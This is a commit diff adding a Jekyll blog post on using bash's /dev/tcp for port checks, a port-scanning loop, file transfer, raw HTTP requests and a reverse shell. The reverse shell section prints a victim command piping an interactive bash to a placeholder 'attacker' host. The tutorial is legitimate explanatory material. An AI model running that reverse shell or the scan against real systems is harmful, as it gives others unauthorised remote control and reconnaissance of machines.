

Before and after one commit to persado/persado.github.io, a Jekyll site: the page built from _posts/2023-05-11-bash-ing-your-network-with-dev-tcp.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add /dev/tcp blog post

````diff
--- a/_posts/2023-05-11-bash-ing-your-network-with-dev-tcp.md
+++ b/_posts/2023-05-11-bash-ing-your-network-with-dev-tcp.md
@@ -13,4 +13,87 @@ tags:
 - http
 - security
 ---
-# TODO
+# bash /dev/tcp special file
+
+### /dev/tcp is a file descriptor of bash shell
+
+In Bash, `/dev/tcp` is a special file that allows you to establish network connections using the TCP/IP protocol. It provides a simple way to communicate with remote servers over a network.
+
+Using `/dev/tcp`, you can open a network socket and read from or write to it, similar to how you would read from or write to a file. This feature is primarily available in Bash shells on Unix-like systems.
+
+It can be accessed for multiple reasons but the basic operation of it is to open a raw TCP stream.
+/dev/udp is also valid.
+
+[Port Scanning](#port-scanning)
+[Read TCP stream](#read-tcp-stream)
+[File Transfer](#file-transfer)
+[Reverse Shell](#reverse-shell)
+[HTTP Requests](#http-requests)
+
+### Port scanning
+#### One of the most common uses of it is to check if a port is open in a remote host
+```
+timeout 0.5 echo -n 2>/dev/null < /dev/tcp/127.0.0.1/7777 && echo "open" || echo "closed"
+```
+
+#### This can be extremely usefull in cases where a machine/container doesn't have nc, curl, wget or any other utility to check for network connection
+Let's say we are in a kubernetes pod that runs on a minimal image having bash. We want to check if it can communicate with a service or if the service is actually listening on a port.
+```
+kubectl exec -it svc/random-service -- bash
+$ echo < /dev/tcp/other-service.namespace.svc.cluster.local/7777 && echo "open" || echo "closed"
+```
+
+#### You can make a port scanner with a one liner (and it's pretty fast)
+```
+for port in {1..8888}; do timeout 0.5 echo -n 2>/dev/null < /dev/tcp/127.0.0.1/$port && echo "$port/tcp open"; done
+```
+
+### Read TCP stream
+#### Get the time from nist.gov
+```
+cat < /dev/tcp/time.nist.gov/13
+```
+
+### File Transfer
+#### Sender
+```
+nc -lvnp 7777 < file.txt
+```
+#### Receiver
+```
+cat < /dev/tcp/sender/7777 > file.txt
+```
+
+#### Alternatively
+
+#### Receiver
+```
+nc -lvnp 7777 > file.txt
+```
+#### Sender
+```
+cat file.txt > /dev/tcp/receiver/7777
+```
+
+### Reverse Shell
+#### Attacker
+```
+nc -lvnp 7777
+```
+#### Victim
+```
+bash -c 'bash -i >& /dev/tcp/attacker/7777 0>&1'
+```
+
+### HTTP Requests
+#### Fetching the `www.google.com` page
+```
+exec 5<>/dev/tcp/www.google.com/80
+echo -e "GET / HTTP/1.1\r\nhost: www.google.com\r\nConnection: close\r\n\r\n" >&5
+cat <&5
+```
+
+
+#### References
+https://tldp.org/LDP/abs/html/devref1.html
+https://w0lfram1te.com/exploring-dev-tcp
````
